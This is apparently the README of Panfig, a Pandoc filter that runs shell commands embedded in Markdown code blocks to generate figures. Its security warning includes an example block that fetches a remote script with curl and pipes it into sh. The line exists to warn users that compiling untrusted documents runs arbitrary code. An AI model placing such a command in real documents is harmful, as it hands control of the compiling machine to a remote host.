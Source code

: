 Pandoc Figure Framework
=======================

This library lets you write self-contained Pandoc/Markdown files that contain figures.

Without Panfig, if you want figures, you have to save the image files, and the scripts that generate them, alongside the document. You'd probably even have a Make system to ensure that all the figures were up to date. What a hassle!

With Panfig, the document stands alone. It describes how to generate the images, and they're generated when the document is compiled to HTML (or whatever).

For example, this Markdown code:

    Here is a very simple FSM: the "on-off automaton."

    ~~~~~~~~ {.panfig shell="dot -Tpng -o {path}"}
      digraph G {
        on [style=filled];
        on -> off;
        off -> on;
      }
    ~~~~~~~~

generates HTML that looks like this:

> Here is a very simple FSM: the "on-off automaton."
>
> ![](on-off.png)



Security: for God's sake, be careful.
-------------------------------------

I am putting this up near the top because you should care.
**Panfig executes arbitrary code contained in the document being compiled. If you invoked Pandoc (+Panfig) on the following document, it would own your computer.**


    ~~~~~~~~ { .panfig shell="curl http://example.com/evil_exploit.sh | sh"}
    ~~~~~~~~


How do I use it?
----------------

In general terms: where you want a figure, you write a code block that describes how to generate an image file. Then you compile the document with `pandoc --filter panfig ...`, and Panfig will generate the image and replace the code block with it.

More specifically: to make a figure, you use Pandoc/Markdown's fenced-code-block syntax to designate a code block as a Panfig block, by giving it the `.panfig` class, and also specifying a shell command that generates the image, like so:

    ~~~~~~~~ { .panfig shell="dot -Tpng -o {path}" }
      digraph G {
        on -> off;
        off -> on;
      }
    ~~~~~~~~

The `sh` attribute, as you see, is a shell command. The contents of the block are piped to its standard input.


### Aliases

If you get tired of writing the same command over and over, you can use aliases to make things more concise. For example:

- Without aliases:

        ~~~~~~~~ { .panfig shell="(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}" }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~

- With aliases:

        ~~~~~~~~ { .panfig-aliases }
        {"mma": {"shell": "(cat; echo ''; echo 'Export[$CommandLine[[2]], %, \"png\"]') | MathKernel {path}"}}
        ~~~~~~~~

        ~~~~~~~~ { .panfig alias=mma }
          Plot[Sin[x], {x, 0, 2*Pi}]
        ~~~~~~~~
